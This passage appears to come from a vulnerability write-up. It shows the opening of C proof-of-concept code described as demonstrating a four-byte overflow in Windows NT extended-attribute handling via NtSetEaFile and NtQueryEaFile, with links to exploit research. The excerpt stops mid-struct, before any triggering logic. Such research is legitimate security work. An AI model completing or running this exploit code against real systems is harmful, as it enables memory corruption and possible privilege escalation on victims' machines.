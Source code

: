 Below is the code which allows for the demonstrated four byte overflow.

```c
#include <windows.h>
#include <stdio.h>
#include <ntstatus.h>
#include <winternl.h>

#pragma comment(lib, "ntdll.lib")
#pragma warning(disable:4996) // allow strncpy...

// https://securelist.com/puzzlemaker-chrome-zero-day-exploit-chain/102771/
// https://hex.pp.ua/extended-attributes.php
// https://github.com/uvbs/obfuscation-crypto-repo/blob/master/Krypton_7.1/Bin/SYS/ntundoc.h
// http://undocumented.ntinternals.net/index.html?page=UserMode%2FUndocumented%20Functions%2FNT%20Objects%2FFile%2FFILE_GET_EA_INFORMATION.html
// https://www.pixiepointsecurity.com/blog/nday-cve-2020-17087.html
// 


#define STATUS_INVALID_EA_NAME           ((NTSTATUS)0x80000013L)
#define STATUS_EA_LIST_INCONSISTENT      ((NTSTATUS)0x80000014L)
#define STATUS_EA_TOO_LARGE              ((NTSTATUS)0xC0000050L)
#define STATUS_EAS_NOT_SUPPORTED         ((NTSTATUS)0xC000004FL)
#define STATUS_EA_CORRUPT_ERROR          ((NTSTATUS)0xC0000053L)

#define MAX_EA_NAME_LEN 255

// Function prototypes for the Native API functions
typedef NTSTATUS(NTAPI* NtSetEaFile_t)(
    HANDLE FileHandle,
    PIO_STATUS_BLOCK IoStatusBlock,
    PVOID Buffer,
    ULONG Length
    );

typedef NTSTATUS(NTAPI* NtQueryEaFile_t)(
    HANDLE FileHandle,
    PIO_STATUS_BLOCK IoStatusBlock,
    PVOID Buffer,
    ULONG Length,
    BOOLEAN ReturnSingleEntry,
    PVOID EaList,
    ULONG EaListLength,
    PULONG EaIndex,
    BOOLEAN RestartScan
    );

#define EA_NAME  "User.Comment321"
#define EA_NAME2 "User.Comment222"
#define EA_NAME3 "ac"

#define EA_NAME_LENGTH  (sizeof(EA_NAME) - 1)
#define EA_NAME_LENGTH2 (sizeof(EA_NAME2) - 1)
#define EA_NAME_LENGTH3 (sizeof(EA_NAME3) - 1)




typedef struct _FILE_FULL_EA_INFORMATION {
    ULONG NextEntryOffset;
    UCHAR Flags;
    UCHAR EaNameLength;
    USHORT EaValueLength;
```